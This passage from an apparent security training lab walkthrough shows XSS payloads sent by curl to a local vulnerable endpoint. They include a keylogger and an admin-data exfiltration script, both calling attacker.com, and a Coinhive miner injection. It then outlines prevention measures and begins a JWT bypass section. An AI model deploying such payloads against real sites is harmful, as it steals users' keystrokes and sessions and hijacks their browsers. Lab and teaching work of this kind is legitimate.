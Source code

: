 **Advanced Burp Suite techniques:**
1. Use Burp's "Hackvertor" extension for encoding bypasses
2. Configure custom payload processors in Intruder
3. Use Collaborator for out-of-band XSS detection

#### Step 3: Advanced Payload Development
**Objective:** Create sophisticated attack payloads

**Using curl with advanced payloads:**
```bash
# Keylogger injection
curl -X POST "http://localhost:5000/api/vuln/xss-advanced" \
  -d 'comment=<script>document.addEventListener("keydown",function(e){fetch("http://attacker.com/log?key="+e.key)})</script>'

# Cryptocurrency miner injection
curl -X POST "http://localhost:5000/api/vuln/xss-advanced" \
  -d 'comment=<script src="https://coinhive.com/lib/coinhive.min.js"></script><script>var miner=new CoinHive.Anonymous("YOUR_SITE_KEY");miner.start();</script>'

# Advanced session hijacking
curl -X POST "http://localhost:5000/api/vuln/xss-advanced" \
  -d 'comment=<script>fetch("/admin/users",{credentials:"include"}).then(r=>r.text()).then(d=>fetch("http://attacker.com/exfil?data="+btoa(d)))</script>'
```

### Advanced Prevention Measures
1. Implement context-aware output encoding
2. Use Content Security Policy (CSP) with nonces and strict-dynamic
3. Implement DOM-based XSS protection
4. Use input validation with machine learning-based detection
5. Implement real-time XSS attack monitoring

---

## 3. Advanced Authentication Bypass

### Vulnerability Description
Complex authentication bypass techniques including JWT manipulation, session fixation, and race condition exploitation.

### Impact
- Complete authentication system compromise
- Privilege escalation through token manipulation
- Race condition exploitation for temporary access
- Advanced session hijacking techniques

### Advanced Solution Steps

#### Step 1: JWT Token Manipulation
**Objective:** Exploit JSON Web Token vulnerabilities
